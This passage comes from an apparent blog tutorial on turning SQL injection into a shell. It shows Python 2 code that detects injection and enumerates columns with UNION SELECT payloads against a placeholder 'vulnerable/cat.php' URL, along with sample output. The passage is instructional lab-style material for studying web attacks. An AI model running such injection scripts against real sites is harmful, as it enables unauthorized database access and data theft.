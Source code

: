 else:
    print "[!] This website is not vulnerable to SQL injection"
{% endhighlight %}

Which results in 

```
$ python sqli2shell.py
[+] Checking website for SQL injection vulnerablity...  
[+] Website is vulnerable to SQL injection
```

We can check the number of columns

{% highlight python linenos %}
#!/usr/bin/python
# SQLi to Shell Script
# www.maxmunday.com 
import urllib2
import re

print "[+] Checking number of columns..."

unknown_columns = True

while unknown_columns:

    wrong_columns = "different number of columns"

    # 1 column
    build_url = "http://vulnerable/cat.php?id=1%20UNION%20SELECT%201"

    r = urllib2.urlopen(build_url)
    b = r.read()

    search = re.search(wrong_columns, b)

    if search:
        print "    [+] More than 1 column"
    else:
        print "    [+] 1 columns in database!"
        unknown_columns = False

    # 2 columns
    build_url = build_url + ",%202"
    r = urllib2.urlopen(build_url)
    b = r.read()

    search = re.search(wrong_columns, b)

    if search:
        print "    [+] More than 2 columns"
    else:
        print "    [+] 2 columns in database!"
        unknown_columns = False

    # 3 columns
    build_url = build_url + ",%203"
    r = urllib2.urlopen(build_url)
    b = r.read()

    search = re.search(wrong_columns, b)

    if search: